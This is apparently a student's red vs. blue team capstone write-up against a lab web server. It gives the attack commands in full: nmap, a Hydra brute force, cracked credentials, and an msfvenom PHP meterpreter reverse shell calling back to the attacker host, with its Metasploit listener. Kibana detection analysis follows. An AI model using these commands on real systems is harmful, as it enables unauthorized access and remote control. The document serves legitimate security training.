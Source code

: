 ## Note: The report of this project is attached above in pdf format
# Summary
# Red Vs. Blue Team Project
Capstone Engagement
Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team
### The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
* image25
* In the web browser, searched IP 192.168.1.105
* image
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- image29
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- image33
- image34
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- image3
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- image6
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
- image
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell:
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- image2
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- Copy the reverse shell onto the WebdDAV directory
- image5
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- image4
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- image1
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- image10
- image11
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- image13-1
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- image14
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- image15
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- image16
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- image17
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- image19
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- Alert: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: This directory and file should be removed from the server all together
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- image18
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
